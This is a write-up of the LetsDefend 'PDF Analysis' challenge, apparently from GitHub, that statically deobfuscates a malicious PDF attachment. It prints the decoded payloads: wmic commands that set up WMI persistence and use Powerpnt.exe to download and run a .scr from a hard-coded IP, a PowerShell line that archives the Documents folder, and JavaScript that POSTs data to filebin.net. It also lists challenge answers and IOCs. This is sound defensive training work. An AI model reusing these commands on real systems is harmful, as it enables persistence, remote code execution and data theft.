# 📄 PDF Analysis — LetsDefend Challenge

| | |
|---|---|
| **Platform** | [LetsDefend](https://app.letsdefend.io/challenge/pdf-analysis) |
| **Category** | Malware Analysis |
| **Difficulty** | Easy |
| **Status** | ✅ Solved (12/12) |
| **Author** | @DXploiter |

---

## 🎯 Scenario

> An employee received a suspicious email:
>
> - **From:** SystemsUpdate@letsdefend.io
> - **To:** Paul@letsdefend.io
> - **Subject:** Critical - Annual Systems UPDATE NOW
> - **Attachment:** `Update.pdf`
>
> The employee did not open the attachment. Analyze it to verify its legitimacy.

- **File location:** `C:\Users\LetsDefend\Desktop\Files\PDF_Analysis.7z` (password `infected`)

---

## 🧰 Tools used

- **PdfStreamDumper** — enumerate and read PDF objects/streams
- **PowerShell** — safely decode the obfuscated payloads (never executing them)

---

## 🔬 Analysis workflow

### 0. Setup
Extracting `PDF_Analysis.7z` (password `infected`) yields `Update.pdf`. The sample is
**never opened in a PDF reader** — only inspected with static tools.



The endpoint provides `PdfStreamDumper.exe` among its tooling:



### 1. Triage the PDF structure
Loading `Update.pdf` in PdfStreamDumper reports **36 objects, 6 streams, `JS: 0`,
but `Action: 3`** — three `/OpenAction` entries, i.e. code that runs automatically
when the document is opened. The parser reports no JavaScript because everything is
obfuscated.



The built-in `Javascript_UI` view comes back empty, confirming the payload is hidden
from the parser:



The largest stream (object 10) is just an embedded TrueType font — a decoy:



Three objects are flagged in green: **17**, **19** and **26**. Those hold the payloads.

### Object 26 — WMI persistence (Q7–Q12)

```
/OpenAction << /S /Launch /Win <<
  /F (C:\Windows\system32\cmd.exe /C 'Powershell')
  /P ($best64code = ("{5}{0}{2}{30}..." -f 'mTuIXZ0xWaGRnblZXRf9lI9', ...)
      $base64 = $best64code.ToCharArray(); [array]::Reverse($base64); -join $base64
      $LoadCode = [Text.Encoding]::UTF8.GetString([Convert]::FromBase64String("$base64"))
      Invoke-Expression $LoadCode )
```



Three obfuscation layers: **format-string reordering** (`-f`), **string reversal**,
then **Base64**. Decoding it (replacing `Invoke-Expression` with a simple print):

```
wmic /NAMESPACE:"\\root\subscription" PATH __EventFilter CREATE Name="eGfQekUIgc",
  Query="SELECT * FROM __InstanceModificationEvent WITHIN 9000 WHERE
         TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'"

wmic /NAMESPACE:"\\root\subscription" PATH CommandLineEventConsumer CREATE Name="RHWsZbGvlj",
  ExecutablePath="C:\Program Files\Microsoft Office\root\Office16\Powerpnt.exe
                  'http://60.187.184.54/wallpaper482.scr'",
  CommandLineTemplate="...\OfficeFileCache\wallpaper482.scr"

wmic ... PATH __FilterToConsumerBinding CREATE Filter=... Consumer=...
```

This is a **WMI event subscription** — a stealthy persistence mechanism (no registry
key, no scheduled task). `WITHIN 9000` seconds = **2.5 hours**. It abuses
**`Powerpnt.exe`** (a LOLBin) to fetch and run `wallpaper482.scr` from `60.187.184.54`.



### Object 19 — Data staging (Q1–Q3)

```
/F '(\powershell -EncodedCommand cDF6c2MwRCV3cW53bm5q...)'
```



Base64 → reverse:

```powershell
Compress-Archive -Path C:%Documents%* -Update -DestinationPath C:%Documents%...%D0csz1p
```

The malware **archives the whole `Documents` folder** into a ZIP named `D0csz1p`
(leetspeak for "Docs zip"). `%` characters stand in for path separators.



### Objects 17 → 33 — JavaScript exfiltration (Q4–Q6)

Object 17 is the catalog and points to object 33:

```
/OpenAction[33 0 R /XYZ null null 0]
```



Object 33 holds a JavaScript payload packed with the **Dean Edwards / eval packer**:

```javascript
eval(function(p,a,c,k,e,d){ ... }('1 5="v://a.b/c/d"; ...',32,32,'xhr|var|data|log||url|...'.split('|'),0,{}))
```

Unpacked:

```javascript
var url = "https://filebin.net/0flqlz0hiz6o4l32/D0csz1p";
var xhr = new XMLHttpRequest();
xhr.open("POST", url);
xhr.setRequestHeader("Content-Type: application/octet-stream", "application/json");
xhr.onreadystatechange = function(){ if(xhr.readyState===4){ console.log(xhr.status); console.log(xhr.responseText) } };
var data = '{"login":"","password":""}';
xhr.send(data);
```

The staged archive `D0csz1p` is **POSTed to `filebin.net`** — an anonymous file
sharing service used for exfiltration.



---

## ❓ Questions & Answers

| # | Question | Answer |
|---|----------|--------|
| 1 | Local directory targeted by the malware | `C:\Documents\` |
| 2 | Name of the file created by the payload | `D0csz1p` |
| 3 | File type it would have been | `zip` |
| 4 | External web domain contacted | `filebin.net` |
| 5 | HTTP method used | `POST` |
| 6 | Name of the JavaScript obfuscation | `Eval` |
| 7 | Tool used to create persistence | `wmic` |
| 8 | How often persistence runs | `2.5 hours` |
| 9 | LOLBin used in the persistence | `Powerpnt.exe` |
| 10 | Filename downloaded via the LOLBin | `wallpaper482.scr` |
| 11 | IP it would be downloaded from | `60.187.184.54` |
| 12 | Country of that IP | `China` |

---

## 📝 Summary / Lessons learned

- **PDFs are code containers.** `/OpenAction` + `/Launch` run commands the moment the
  document opens — no exploit needed, just a user clicking the file.
- **`JS: 0` does not mean "no JavaScript".** Heavy obfuscation defeats static parsers;
  always inspect the objects manually.
- **Layered obfuscation:** format-string reordering → reversal → Base64 (PowerShell),
  and eval-packing (JavaScript). Peel one layer at a time.
- **Never execute — always print.** Replacing `Invoke-Expression` with a plain output
  is the safe way to deobfuscate.
- **LOLBins everywhere:** `wmic` for persistence, `Powerpnt.exe` as a downloader —
  both are signed Microsoft binaries that blend into normal activity.
- **Full kill chain observed:** staging (`Compress-Archive`) → exfiltration
  (`POST` to filebin.net) → persistence (WMI subscription) → second stage
  (`wallpaper482.scr`).

### Indicators of Compromise (IOCs)

| Type | Value |
|------|-------|
| Malicious attachment | `Update.pdf` |
| Staged archive | `C:\Documents\D0csz1p` (.zip) |
| Exfiltration URL | `https://filebin.net/0flqlz0hiz6o4l32/D0csz1p` |
| Second-stage payload | `http://60.187.184.54/wallpaper482.scr` |
| C2 IP | `60.187.184.54` (China) |
| WMI filter / consumer | `eGfQekUIgc` / `RHWsZbGvlj` |

### MITRE ATT&CK mapping

| Technique | ID |
|-----------|-----|
| Phishing: Spearphishing Attachment | T1566.001 |
| Command and Scripting Interpreter: PowerShell | T1059.001 |
| Obfuscated Files or Information | T1027 |
| Event Triggered Execution: WMI Event Subscription | T1546.003 |
| System Binary Proxy Execution (LOLBin) | T1218 |
| Archive Collected Data | T1560.001 |
| Exfiltration Over Web Service | T1567 |
